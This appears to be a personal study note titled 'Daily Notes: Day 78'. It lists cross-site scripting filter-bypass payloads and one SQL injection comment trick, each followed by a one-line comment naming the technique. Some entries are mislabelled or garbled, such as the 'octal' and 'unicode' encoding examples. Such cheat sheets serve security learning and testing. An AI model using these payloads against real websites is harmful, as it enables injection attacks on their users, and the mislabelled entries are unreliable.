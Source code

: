 Daily Notes : Day 78 
REGEX BYPASSES

<sCrIpT>alert(XSS)</sCriPt> 
#changing the case of the tag

<<script>alert(XSS)</script> 
#prepending an additional "<"

<script>alert(XSS) // 
#removing the closing tag

<script>alert`XSS`</script> 
#using backticks instead of parenetheses

java%0ascript:alert(1) 
#using encoded newline characters

<iframe src=http://malicous.com < 
#double open angle brackets

<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE> 
#uncommon tags

<img/src=1/onerror=alert(0)> 
#bypass space filter by using / where a space is expected

<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> 
#extra characters

Function("ale"+"rt(1)")(); 
#using uncommon functions besides alert, console.log, and prompt

javascript:74163166147401571561541571411447514115414516216450615176 
#octal encoding

<iframe src="javascript:alert(`xss`)"> 
#unicode encoding

/?id=1+un/**/ion+sel/**/ect+1,2,3-- 
#using comments in SQL query to break up statement

new Function`alt\`6\``; 
#using backticks instead of parentheses

data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ 
#base64 encoding the javascript

%26%2397;lert(1) 
#using HTML encoding

<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> 
#Using Line Feed (LF) line breaks 

<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()> 
#use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
